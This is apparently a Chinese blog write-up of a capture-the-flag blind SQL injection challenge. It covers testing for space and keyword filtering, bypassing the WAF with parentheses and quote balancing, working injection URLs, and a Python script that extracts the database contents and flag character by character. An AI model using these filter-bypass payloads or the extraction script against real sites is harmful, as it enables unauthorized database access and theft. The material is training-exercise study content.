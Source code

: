 ```yaml
---
layout: post
title: SQL盲注
categories: [web]
tags: [web]
fullview: true
comments: true
---
```


最近在练习sql注入写脚本，记录一下思路，刚学的and 1=1也拿出来溜溜  
  
http://119.23.73.3:5004/?id=1  
  
>     首先，没有被过滤是正常显示。  
>     没有被过滤但是查询不到就是空白，比如?id=99999
>     waf过滤关键词，提示whatfuck

## ①   

我首先判断的是有没有用trim()函数，要知道trim函数和过滤是不一样的。  

区别很简单，举个例子。trim默认移除字符串左右两边的空格  

>      http://119.23.73.3:5004/?id=1（此处1后边有空格）
>      如果使用了trim()函数，也过滤掉了空格。
>      那么这个不会出waf的，而是会正常显示id=1的内容。
>      会让你以为空格并没有过滤，是因为trim函数把空格去掉后才用waf函数进行的判断。  

测试的方法很简单**?id=1 1**，让空格在里面就好了。  

发现过滤了空格，寻找能够代替空格的字符。  

>     %20 %09 %0a %0b %0c %0d %a0 %00 /**/    ()  

发现只有()没有被过滤。  

## ②
判断是整形注入还是字符型注入，?id=1-0，发现不是id=1的界面，不是整形注入  
  
## ③

判断id的保护是什么?首先猜测是引号，输入1'1，(这里为了排除trim函数的影响)，发现没有出现waf，但是会出现空白。所以是单引号保护，因为单引号没有被过滤，会匹配原来保护id的两个单引号的前一个，导致了有一了孤零零的单引号没有人和他配对，就会出错，什么也查不出来。  

##④

判断截断字符有没有被过滤，发现尝试%23，--+，--%20都会被过滤。  

所以考虑and '1这样绕过，匹配最后的那个'，不让他孤零零，有任何他匹配就不会出错。  

## ⑤   

判断其他的过滤字符  

>     union被过滤，无法使用联合查询
>     > < like regexp被过滤，但是=没有被过滤，between and 也没有被过滤。  
>     or被过滤，information这个一会再说，有点特殊。  
>     mid,ascii没有被过滤，逗号也没有被过滤。

## ⑥
判断逻辑  

>     http://119.23.73.3:5004/?id=1%27and(select(0))and%271
>     http://119.23.73.3:5004/?id=1%27and(select(1))and%271  

发现可以判断出来注入的逻辑，只要构造语句让select(0)和select(1)里面的1，0值出现就可以判断了。  

## ⑦   
脚本，py3

<pre><code>import requests

shiliu="0x20"
zuihou="0x7f"
i=1
while True:
    #http://119.23.73.3:5004/?id=1%27and(select(mid((select(database())),1,1))=%27m%27)and%271 #MOCTF
    #url="http://119.23.73.3:5004/?id=1%27and(select(select(group_concat(table_name))from(information_schema.tables)where(table_schema)='moctf')between("+shiliu+")and(0x7f))and%271"  #DO_Y0U_L1KE_LONG_T4BLE_NAME,NEWS
    #url="http://119.23.73.3:5004/?id=1%27and(select(select(group_concat(column_name))from(information_schema.columns)where(table_name)='do_y0u_l1ke_long_t4ble_name')between("+shiliu+")and(0x7f))and%271"  #D0_YOU_ALS0_L1KE_VERY_LONG_COLUMN_NAME
    url="http://119.23.73.3:5004/?id=1%27and(select(ascii(mid((select(d0_you_als0_l1ke_very_long_column_name)from(do_y0u_l1ke_long_t4ble_name)),"+str(i)+",1)))between("+shiliu+")and(0x7f))and%271"  #D0_YOU_ALS0_L1KE_VERY_LONG_COLUMN_NAME
    res=requests.get(url)
    #print(url)


#MOCTF{B1IND_SQL_1NJECTI0N_G0OD}

    if "Hello" not in res.text:
        i+=1
        x=hex(int(shiliu,16)-1)
        if '20' in x:
            break;
        print(x)
        zuihou = shiliu + zuihou.replace("0x","")



        shiliu="0x20"
        #shiliu=x+shiliu.replace("0x","")   #跑前三个的时候这个不能注释掉,跑最后一个得注释掉



    shiliu=str(hex(int(shiliu,16)+1))

</code></pre>  

数据库我是手动测试的，是moctf，然后剩下的，一开始偷了懒，没用ascii跑，结果flag大小写都提交不上，原因是flag有大写也有小写，数据库是对大小写不敏感的，用ascii就可以了  
  
第一个语句我没用脚本跑，自己用手试出来的。  
  
>     moctf{b1ind_SQL_1njecti0n_g0od}  
>     兄弟们不会做的就问啊，输出一下url，挨个看看怎么跑的，直接提交flag没啥用  


最后说一下那个or被过滤了，为什么information没有被过滤。    

information确实被过滤了，但是information只要加上其他为被过滤的字符，也不会被过滤。  

为此还去群里问了下，
  
出题人:Waf加了智能识别语义，information语境就不过滤，这样听起来会不会更牛逼